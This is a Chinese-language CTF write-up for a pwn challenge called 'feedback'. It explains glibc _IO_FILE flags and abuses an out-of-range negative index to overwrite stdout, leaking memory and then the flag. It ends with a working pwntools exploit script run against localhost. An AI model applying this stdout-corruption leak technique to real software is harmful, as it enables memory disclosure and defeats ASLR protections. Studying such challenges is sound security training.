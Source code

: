 # feedback

## 文件分析

下载`feedback`, 保护全开  
ghidra分析为64位程序

缓冲区没有溢出，所以没法利用栈溢出等，因为可以访问stdout等，故利用`_IO_FILE`  
本题是我第一次做`_IO_FILE`，详细写写

## 前置知识

`_IO_FILE`中存在`_flags`，各标志位含义如下

```c
/* Magic numbers and bits for the _flags field.
   The magic numbers use the high-order bits of _flags;
   the remaining bits are available for variable flags.
   Note: The magic numbers must all be negative if stdio
   emulation is desired. */
#define _IO_MAGIC 0xFBAD0000 /* Magic number */
#define _OLD_STDIO_MAGIC 0xFABC0000 /* Emulate old stdio. */
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4 /* Reading not allowed */
#define _IO_NO_WRITES 8 /* Writing not allowd */
#define _IO_EOF_SEEN 0x10
#define _IO_ERR_SEEN 0x20
#define _IO_DELETE_DONT_CLOSE 0x40 /* Don't call close(_fileno) on cleanup. */
#define _IO_LINKED 0x80 /* Set if linked (using _chain) to streambuf::_list_all.*/
#define _IO_IN_BACKUP 0x100
#define _IO_LINE_BUF 0x200
#define _IO_TIED_PUT_GET 0x400 /* Set if put and get pointer logicly tied. */
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_IS_APPENDING 0x1000
#define _IO_IS_FILEBUF 0x2000
#define _IO_BAD_SEEN 0x4000
#define _IO_USER_LOCK 0x8000
```

pwn中常用0xfbad1800

puts, sprintf, printf等包装函数，最后都会调用write，可以对stdout结构体进行修改，
实现leak；其中结构体中的`_chain`，在stdout中会指向stdin；在执行包装输出函数前，
会打印`_IO_write_base`到`_IO_write_ptr`范围内的字符；初始化后`_IO_write_*`
会指向结构体中的`_shortbuf`，通过覆盖最后一个字节，可以将base指向`_chain`

## 踩过的坑

一开始在我本地上跑的时候，flag是无法写入的:
read函数返回-1(val of rax)，使用`p *__errno_location()`查询errno得知，
14: Bad Address，本身读入的地址就没有w权限

后来发现zip包里含有ld和libc，
可以patchelf（这里我把这两各文件放在./libs下）

> Arch Linux可以直接pacman(yay)安装patchelf哦

gdb中要重启程序不需要q，先kill再run/start即可

```shell
patchelf patchelf --set-interpreter ./libs/ld-2.31.so --replace-needed libc.so.6 ./libs/libc-2.31.so feedback
chmod +x ./libs/* # 一定要+x！不然没有权限执行
```

patch后gdb调试发现这时flag就会放到一个匿名内存段，不会崩溃了

## 解题思路

反汇编后得知，flag放在比`puts`高0x16d2e0的地址，而`puts`的地址是随机化的，
因此可以获取libc中的任意地址然后偏移取得flag地址

在vuln函数中要输入数组索引，而索引被限定为小于4；观察.bss段布局可知，
stdout地址比`feedback_list`低，将索引输入为-8，就可以覆盖stdout写入

gdb调试后可以知道stdin与flag位置的差值

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 37325)

# payload 1
sh.sendline(b'-8') # locate stdout ptr
payload = p64(0xfbad1800) # _flags though 32b data, takes 64b space
payload += p64(0) # _IO_read_ptr，stdout不涉及输入，改成0就可以
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += b'\x08' # _IO_write_base first byte, points to _chain
# write _chain (stdin) out
sh.sendlineafter(b'back.', payload)

flag = u64(sh.recvuntil(b'Your')[1:7]+b'\0\0') - 0x1980 + 0x6700 # get stdin addr and shift to flag addr

# payload 2
sh.sendline(b'-8') # locate stdout ptr
payload = payload[:-1] # remove '\x08'
payload += p64(flag) # _IO_write_base
payload += p64(flag + 0x30) # _IO_write_ptr, unknown flag length, assuming 48
# write flag out
sh.sendlineafter(b'back.', payload)
sh.interactive()
```

Done.
